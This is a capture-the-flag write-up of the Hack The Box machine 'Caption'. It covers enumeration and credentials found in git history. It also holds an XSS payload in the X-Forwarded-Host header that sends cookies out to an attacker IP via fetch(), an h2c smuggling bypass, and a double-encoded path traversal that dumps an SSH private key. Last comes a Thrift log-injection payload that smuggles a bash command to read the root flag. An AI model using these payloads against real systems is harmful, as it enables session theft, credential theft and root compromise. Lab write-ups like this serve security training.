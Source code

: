 ```yaml
---
layout: post
released: 2024-07-14
creators:
  - MrR3boot
pwned: true
tags: os/linux diff/hard
categoty: HTB
---
```

# Caption
![Caption](https://labs.hackthebox.com/storage/avatars/d3cb6edd2a219f122696655d0015b101.png)
# Enumeration
`nmap` find the following ports open:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-21 00:47 EST
Nmap scan report for caption.htb (10.10.11.33)
Host is up (0.051s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```
# Foothold
### Caption Portal Login
On the webpage running on port `80` we find a custom login page:
![[Pasted image 20250121165617.png]]
## GitBucket
On the webpage running on port `8080` we find a gitbucket site:
![[Pasted image 20250121165713.png]]
looking at the [GitHub](https://github.com/gitbucket/gitbucket) page of `GitBucket` we find the default credentials: 
`root`
`root` 
which don't seem to log us in.
We see two repositories, the `caption-portal` one looks interesting as it's probably the webserver running on port `80`
## Caption Portal
Looking at the files found nothing interesting, checked the commit history and found: `Update Access Control` which nets us the following credentials:
`margo`
`vFr&cS2#0!`
which we can use to login into the portal!:
![[Pasted image 20250121170555.png]]
Looking around we find nothing, trying to reuse the credentials for `GitBucket` also doesn't work
Intercepting the request to `/firewalls` and attemting `Host Header attacks` reveals that `X-Forwarded-Host` header is vulnerable to XSS:
```h
GET /firewalls HTTP/1.1
Host: caption.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://caption.htb/firewalls
Cookie: JSESSIONID=node01mho8ai0w4nxj1phn6mlxveywp79.node0; session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im1hcmdvIiwiZXhwIjoxNzM3NDYwNjYyfQ.BqBry30CBvRD33DrRY8SaWq-Q5_ZP3S23e_qtZGXinw
Upgrade-Insecure-Requests: 1
Priority: u=0, i
X-Forwarded-Host: 127.0.0.1"><script>alert('xss test');</script>
```
![\1](\1)
Burp repeater is inconsistent, using MatchAndReplace to automatically add header works
creating the following payload for stored XSS to steal cookies:
```
X-Forwarded-Host: 127.0.0.1"><script>fetch('http://10.10.14.23/test.php?c='+document.cookie)</script>
```
We get the following callback on our listening server:
```
10.10.11.33 - - [21/Jan/2025 18:01:43] "GET /test.php?c=session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3NTA0MDg0fQ.3KYn1rCsnRfsO9t8dQAI2FpEyqcbdlJLcNeGiCXoJ64 HTTP/1.1" 404 -
```
Running `feroxbuster` we find the following directories that are both `403 Forbidden`:
```
403      GET        4l        8w       94c http://caption.htb/logs
403      GET        4l        8w       94c http://caption.htb/download
```
Using the stolen cookies I am still getting `403 Forbidden` on those pages:
![[Pasted image 20250122122659.png]]
Knowing that `haproxy` is running on the background I attempt to bypass it using 
[H2Csmuggler](https://github.com/BishopFox/h2csmuggler)
```console
$ python3 h2csmuggler.py -x "http://caption.htb" -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3NTE0MTg2fQ.LQFk69bSW_dgmNpF6kCo9O0VDV0yQwEPlBHYY3xRBgs; JSESSIONID=node0q95nb4nf8uib156s6htpkkank0.node0" "http://127.0.0.1:6081/download?url=http://127.0.0.1:3923/"
```
checking the home page of the download url copy party server found this:
```
<script src="/.cpr/util.js?_=kEZE"></script>
<script src="/.cpr/baguettebox.js?_=kEZE"></script>
<script src="/.cpr/browser.js?_=kEZE"></script>
<script src="/.cpr/up2k.js?_=kEZE"></script>
```
Utilizing the `.cpr` directory attempted to read `/home/margo/.ssh/id_ecdsa` only to find that it's not found, checking the output we find that our input is injected into a form action:
```
<form method="post" enctype="multipart/form-data" action="/.cpr//home/margo/.ssh/id_ecdsa">
```
Double encoding and attemting to grab ssh keys: `%252Fhome%252Fmargo%252F.ssh%252Fid_ecdsa`:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS1zaGEy
LW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQTGOXexsvvDi6ef34AqJrlsOKP3cynseip0tX/R+A58
9sSkErzUOEOJba7G1Ep2TawTJTbWb2KROYrOYLA0zysQAAAAoJxnaNicZ2jYAAAAE2VjZHNhLXNo
YTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMY5d7Gy+8OLp5/fgComuWw4o/dzKex6KnS1f9H4
Dnz2xKQSvNQ4Q4ltrsbUSnZNrBMlNtZvYpE5is5gsDTPKxAAAAAgaNaOfcgjzxxq/7lNizdKUj2u
Zpid9tR/6oub8Y3Jh3cAAAAAAQIDBAUGBwg=
-----END OPENSSH PRIVATE KEY-----
```
Got `margo`!
# Margo (user)
Looking back at `gitbucket` we see that the logservice is running on port `9090`
```go
func main() {
    handler := &LogServiceHandler{}
    processor := log_service.NewLogServiceProcessor(handler)
    transport, err := thrift.NewTServerSocket(":9090")
    if err != nil {
        log.Fatalf("Error creating transport: %v", err)
    }
 
    server := thrift.NewTSimpleServer4(processor, transport, thrift.NewTTransportFactory(), thrift.NewTBinaryProtocolFactoryDefault())
    log.Println("Starting the server...")
    if err := server.Serve(); err != nil {
        log.Fatalf("Error occurred while serving: %v", err)
    }
}
```
which is consistent with the open ports:
```console
$ ss -tulnp
tcp     LISTEN   0        4096           127.0.0.1:9090          0.0.0.0:*                                           
```
Looking at the service it uses the following library for log transport:
[Apache/Thrift github](https://github.com/apache/thrift)
Here is the library's documentation: [Thrift](https://thrift.apache.org/)
Looking around for vulnerabilities in thrift I found out this:
[ Apache Thrift Go Library Command Injection ](https://github.com/advisories/GHSA-r4m4-pmvw-m6j5)
So I take a look at the thrift file in the github repository:
```go
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```
Copy it to my box and use it to generate the files needed for a client:
```console
$ thrift -r --gen py log_service.thrift
```
Using  [ChatGPT](https://chatgpt.com/) to generate the following client `poc` in python:
```python
import sys
import time
from thrift import Thrift
from thrift.protocol import TBinaryProtocol
from thrift.transport import TSocket, TTransport
from log_Service import LogService

def main():
    # Connect to the Thrift server running on localhost:9090
    transport = TSocket.TSocket('127.0.0.1', 9090)
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client for the LogService
    client = LogService.Client(protocol)

    try:
        # Open the transport connection
        transport.open()

        # Specify the log file path you want to read from the server
        file_path = "/home/margo/w1ld/log.log"

        # Call the ReadLogFile method on the server
        print(f"Calling ReadLogFile with file: {file_path}")
        response = client.ReadLogFile(file_path)

        # Print the response received from the server
        print("Server Response:", response)

        # Optionally, you can check the output file created by the server
        output_file = "output.log"
        try:
            with open(output_file, 'r') as file:
                print("\nContents of output.log:")
                print(file.read())
        except FileNotFoundError:
            print(f"Output file '{output_file}' does not exist.")

    except Thrift.TException as tx:
        print(f"Error: {tx.message}")

    finally:
        # Close the transport connection
        transport.close()

if __name__ == "__main__":
    main()
```
which reads the logfile `/home/margo/w1ld/log.log` which we must create:
```
127.0.0.1 "user-agent":"'; /bin/bash /home/margo/w1ld/w1ld.sh#"
```
which calls `w1ld.sh`
```
cat /root/root.txt >> /home/margo/w1ld/root.txt
```
before running the script we must forward port `9090` to our home machine:
```console
$ ssh margo@caption.htb -i id_ecdsa -L 9090:127.0.0.1:9090
```
Run the script and read the root file:
```console
kali@kali:~/htb/caption/gen-py
$ python3 poc.py
[margo:~/w1ld]
$ ls
log.log  root.txt  w1ld.sh
```

